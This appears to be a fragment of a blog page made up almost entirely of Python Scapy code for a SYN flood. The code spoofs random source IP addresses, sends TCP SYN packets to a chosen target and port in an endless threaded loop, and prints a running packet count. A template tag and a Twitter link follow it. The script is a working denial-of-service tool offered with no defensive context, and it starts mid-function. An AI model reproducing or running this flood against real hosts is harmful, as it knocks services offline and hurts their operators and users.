 		i = IP()
		i.src = "%i.%i.%i.%i" % (random.randint(1,254),random.randint(1,254),random.randint(1,254),random.randint(1,254))
		i.dst = target

		t = TCP()
		t.sport = random.randint(1,65535)
		t.dport = port
		t.flags = 'S'

		send(i/t, verbose=0)

print "Flooding %s:%i with SYN packets." % (target, port)
while 1:
	sendSYN().start()
	total += 1
	sys.stdout.write("\rTotal packets sent:\t\t\t%i" % total)


  {% endhighlight %}


  https://twitter.com/GuyZwerdling/status/938687023917010944
